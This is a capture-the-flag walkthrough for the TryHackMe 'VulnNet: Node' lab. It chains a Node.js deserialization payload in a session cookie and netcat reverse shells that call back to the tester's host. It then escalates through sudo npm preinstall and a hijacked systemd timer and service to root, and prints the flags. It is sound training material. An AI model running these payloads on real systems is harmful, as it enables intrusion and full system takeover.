

# VulnNet: Node

---



---

# Enumeration


Open web-browser and start the BurpSuite tool to analyze the requests/responses


```
GET / HTTP/1.1
Host: 10.10.116.34:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.116.34:8080/login
Cookie: session=eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D
Upgrade-Insecure-Requests: 1
If-None-Match: W/"1daf-dPXia8DLlOwYnTXebWSDo/Cj9Co"
```

Click on the `LOGIN NOW` button


Capture the Request through BurpSuite

```
GET /login HTTP/1.1
Host: 10.10.116.34:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.116.34:8080/
Cookie: session=eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D
Upgrade-Insecure-Requests: 1
```

Decode the string inside `session` as `base64`

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet/Node]
└─$ echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D" | base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```

# Exploit

Use `Decode` tab in the BurpSuite to encode the `session`


Turn `Intercept` on and refresh the page → Modify the Cookie

```
GET / HTTP/1.1
Host: 10.10.116.34:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.116.34:8080/login
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6IkFkbWluIiwiaXNHdWVzdCI6ZmFsc2UsImVuY29kaW5nIjogInV0Zi04In0%3d
Upgrade-Insecure-Requests: 1
If-None-Match: W/"1daf-dPXia8DLlOwYnTXebWSDo/Cj9Co"
```

Render the page from the browser


Research about *nodejs exploit* and *deserialization payload* → I found this one

```
{"username":"_$$ND_FUNC$$_require('child_process').exec('ping -c2 10.8.97.213', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```

Paste it to the Request session


Start the listener using `tcpdump` on the local machine and `send` the request

```
┌──(kali㉿kali)-[~/TryHackMe/VulnNet/Node]
└─$ sudo tcpdump -i tun1 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun1, link-type RAW (Raw IP), snapshot length 262144 bytes
04:30:25.734432 IP 10.10.116.34 > 10.8.97.213: ICMP echo request, id 1039, seq 1, length 64
04:30:25.734447 IP 10.8.97.213 > 10.10.116.34: ICMP echo reply, id 1039, seq 1, length 64
04:30:26.735415 IP 10.10.116.34 > 10.8.97.213: ICMP echo request, id 1039, seq 2, length 64
04:30:26.735475 IP 10.8.97.213 > 10.10.116.34: ICMP echo reply, id 1039, seq 2, length 64
```

We got the ping back → The payload works

# Gain Access

Modify the payload to insert a reverse shell inside

```
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.97.213 4444 >/tmp/f')}()","isGuest":false,"encoding": "utf-8"}
```


Start the `Netcat Listener` and send the request

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.116.34] 51488
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(www) gid=1001(www) groups=1001(www)
$ whoami
www
```

# Privilege Escalation → serv-manage

Navigate to `/home` directory and found that there is another user who called `serv-manage`

```
$ cd /home
$ ls -la
total 16
drwxr-xr-x  4 root        root        4096 Jan 24  2021 .
drwxr-xr-x 23 root        root        4096 Jan 24  2021 ..
drwxr-x--- 17 serv-manage serv-manage 4096 Jan 24  2021 serv-manage
drwxr-xr-x  7 www         www         4096 Jan 24  2021 www
```

Use `sudo -l` to view which commands could be executed by user `www`

```
$ sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

Research `npm` on `GTFOBins` → Use this payload to escalate the current user to `serv-manage`

```
$ TF=$(mktemp -d)
TF=$(mktemp -d)
$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
$ chmod 777 /tmp/tmp* -R
chmod 777 /tmp/tmp* -R
$ sudo -u serv-manage npm -C $TF --unsafe-perm i
sudo -u serv-manage npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.RHZ8tihHMR
> /bin/sh

$ id
id
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
```

OK! Now we are `serv-manage` → Locate the `user.txt` file and get the user flag

```
$ cd /home/serv-manage
$ cat user.txt
THM{064640a2f880ce9ed7a54886f1bde821}
```

# Privilege Escalation → root

Try `sudo -l` again

```
$ sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
$ find / -name "vulnnet-auto.timer" -type f 2>/dev/null
/etc/systemd/system/vulnnet-auto.timer
```

We have *sudo* access with `/bin/systemctl` as `root` on the following files: `vulnnet-auto.timer`, `stop vulnnet-auto.timer`, and `daemon-reload`.

```
$ ls -l /etc/systemd/system/vulnnet-auto.timer
-rw-rw-r-- 1 root serv-manage 167 Jan 24  2021 /etc/systemd/system/vulnnet-auto.timer
$ ls -l /etc/systemd/system/vulnnet-job.service
-rw-rw-r-- 1 root serv-manage 167 Jan 24  2021 /etc/systemd/system/vulnnet-job.service
```

We concluded that `vulnnet-auto.timer` runs immediately `vulnnet-job.service` after booting and every 30 minutes. We also concluded that `vulnnet-job.service` is running `/bin/df` through `ExecStart`, the job now is to escalate to `root` user through this service.

Let’s modify these files

```
echo "[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
OnCalendar=*:0/1
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target" > vulnnet-auto.timer
```

```
echo "[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/tmp/shell

[Install]
WantedBy=multi-user.target" > vulnnet-job.service
```

Create a reverse shell at `/tmp/`

```
echo "#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.97.213 4242 >/tmp/f" > /tmp/shell
```

Don’t forget to `changemod` the shell for being executed

```
chmod +x /tmp/shell
sudo -u root /bin/systemctl stop vulnnet-auto.timer
sudo -u root /bin/systemctl daemon-reload
sudo -u root /bin/systemctl start vulnnet-auto.timer
```

Start the `Netcat Listener` on the local machine → `stop vulnnet-auto.timer`,`reload daemon`,`start vulnnet-auto.timer` → Gain root → Get the flag

```
┌──(kali㉿kali)-[~/TryHackMe/VulnNet/Node]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.49.76] 39204
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{abea728f211b105a608a720a37adabf9}
```